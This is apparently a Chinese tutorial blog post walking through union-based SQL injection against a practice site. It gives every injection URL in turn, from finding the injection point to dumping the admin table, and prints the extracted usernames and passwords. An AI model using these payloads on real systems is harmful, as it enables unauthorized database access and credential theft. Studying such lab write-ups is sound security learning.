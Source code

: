 title: sql注入得到数据库的用户名和密码
author: weizhao
tags:
  - sql注入
categories: []
date: 2021-03-08 22:15:00
---
# 确定注入点

* 当输入
http://59.63.200.79:8003/?id=1%20and%201=1 
时网站显示正常
* 当输入
http://59.63.200.79:8003/?id=1%20and%201=2
时网站显示不正常，判断注入点在此。

# 确定网站的回传的字段数

* 输入 
http://59.63.200.79:8003/?id=1%20and%201=1%20order%20by%201 
网站显示正常，结尾用order by 2 时仍显示正常，当使用order by 3 时页面显示不正常，判断网站包含两个字段。

# 确定回显点

* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,2
时页面显示出来2，确定了回显地点。

# 确定数据库名称

* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,database()
出现当前数据库的名称：maoshe
# 确定当前数据库包含的表

* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1 
返回当前数据库包含的第一个表名：admin。
* 输入 
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%201,1 
页面异常，表示当前数据库只包含一个表。

**_limit用法_**
* LIMIT后的第一个参数是输出记录的初始位置，第二个参数偏移量，偏移多少，输出的条目就是多少。
# 确定当前数据库表包含的列名
* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,column_name%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27admin%27%20limit%200,1 
得到第一列的名称为：Id
* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,column_name%20from%20information_schema.columns%20where%20table_schema=database()%
20and%20table_name=%27admin%27%20limit%201,1 
得到第二列的名称为：username 
* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,column_name%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27admin%27%20limit%202,1 
得到第三列的名称为：password 
* 输入limit 3,1时页面异常，说明admin表只包含三列。
# 确定当前表记录的用户
* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,username%20from%20admin%20limit%200,1 
得到第一个用户为admin
* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,username%20%20from%20admin%20limit%201,1
得到第二个用户为：ppt领取微信 。
* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,username%20%20from%20admin%20limit%202,1
页面异常，说明只包含两个用户。
# 确定用户的密码

* 输入
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,password%20from%20admin%20limit%200,1 
得到admin用户的密码为：hellohack 
* 输入 
http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,password%20%20from%20admin%20limit%201,1 
得到第二个用户的密码为：zkaqbanban 



